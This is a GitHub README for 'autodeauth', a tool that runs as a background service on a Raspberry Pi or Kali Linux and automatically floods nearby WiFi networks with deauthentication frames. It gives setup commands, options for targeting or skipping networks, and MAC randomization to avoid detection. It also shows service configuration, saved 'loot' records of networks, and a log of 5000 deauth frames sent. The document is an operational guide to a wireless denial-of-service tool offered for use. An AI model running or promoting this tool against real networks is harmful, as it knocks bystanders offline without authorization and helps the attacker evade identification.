 # autodeauth
A tool/service built to automatically deauth local networks
* Tested on Raspberry Pi OS and Kali Linux

# Setup
```
$ chmod +x setup.sh
$ sudo ./setup.sh

[*] This can be changed by editing /etc/systemd/system/autodeauth.service
[?] Enter your WiFi interface to use with the autodeauth service: wlan0 
[*] Installed!, you can use sudo autodeauth -h to see available options.
[*] Check the README for more infomation about configuring/starting the service
```


# Options
```
$ sudo autodeauth -h
        _       _       ___                _   _    
       /_\ _  _| |_ ___|   \ ___ __ _ _  _| |_| |_  
      / _ \ || |  _/ _ \ |) / -_) _` | || |  _| ' \ 
     /_/ \_\_,_|\__\___/___/\___\__,_|\_,_|\__|_||_|

usage: autodeauth [-h] --interface INTERFACE [--blacklist BLACKLIST] [--whitelist WHITELIST] [--led LED] [--time TIME] [--random] [--ignore] [--count COUNT] [--verbose VERBOSE]

Auto Deauth Tool

options:
  -h, --help            show this help message and exit
  --interface INTERFACE, -i INTERFACE
                        Interface to fetch WiFi networks and send deauth packets (must support packet injection)
  --blacklist BLACKLIST, -b BLACKLIST
                        List of networks ssids/mac addresses to avoid (Comma seperated)
  --whitelist WHITELIST, -w WHITELIST
                        List of networks ssids/mac addresses to target (Comma seperated)
  --led LED, -l LED     Led pin number for led display
  --time TIME, -t TIME  Time (in s) between two deauth packets (default 0)
  --random, -r          Randomize your MAC address before deauthing each network
  --ignore              Ignore errors encountered when randomizing your MAC address
  --count COUNT, -c COUNT
                        Number of packets to send (default 5000)
  --verbose VERBOSE, -v VERBOSE
                        Scapy verbosity setting (default: 0)
                                                    
```

# Usage
After running the setup you are able to run the script by using autodeauth from any directory
## Command line
Networks with spaces can be represented using their mac addresses
```
$ sudo autodeauth -i wlan0 --blacklist FreeWiFi,E1:DB:12:2F:C1:57 -c 10000
```
## Service
```
$ sudo systemctl start autodeauth
```


# Loot and Log files
## Loot
When a network is detected and fits under the whitelist/blacklist criteria its network information is saved as a json file in /var/log/autodeauth/

```json
{
    "ssid": "MyWiFiNetwork",
    "mac_address": "10:0B:21:2E:C1:11",
    "channel": 1,
    "network.frequency": "2.412 GHz",
    "mode": "Master",
    "bitrates": [
        "6 Mb/s",
        "9 Mb/s",
        "12 Mb/s",
        "18 Mb/s",
        "24 Mb/s",
        "36 Mb/s",
        "48 Mb/s",
        "54 Mb/s"
    ],
    "encryption_type": "wpa2",
    "encrypted": true,
    "quality": "70/70",
    "signal": -35
} 
```
## Log File
```
$ cat /var/log/autodeauth/log               
2022-08-20 21:01:31 - Scanning for local networks
2022-08-20 21:20:29 - Sending 5000 deauth frames to network: A0:63:91:D5:B8:76 -- MyWiFiNetwork
2022-08-20 21:21:00 - Exiting/Cleaning up
```

# Edit Service Config

To change the settings of the autodeauth service edit the file /etc/systemd/system/autodeauth.service <br>
Lets say you wanted the following config to be setup as a service
```
$ sudo autodeauth -i wlan0 --blacklist FreeWiFi,myWifi -c 10000
```
```
$ vim /etc/systemd/system/autodeauth.service
```
Then you would change the ExecStart line to <br>
```
ExecStart=/usr/bin/python3 /usr/local/bin/autodeauth -i wlan0 --blacklist FreeWiFi,myWifi -c 10000
```

